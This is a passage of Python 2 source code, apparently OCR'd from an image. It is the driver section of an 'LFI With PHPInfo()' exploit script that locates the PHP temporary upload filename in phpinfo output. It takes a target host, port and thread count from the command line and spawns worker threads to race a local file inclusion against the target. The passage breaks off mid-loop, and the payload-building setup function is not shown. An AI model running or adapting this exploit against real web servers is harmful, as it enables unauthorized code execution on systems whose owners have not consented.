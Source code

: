 ```python
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
```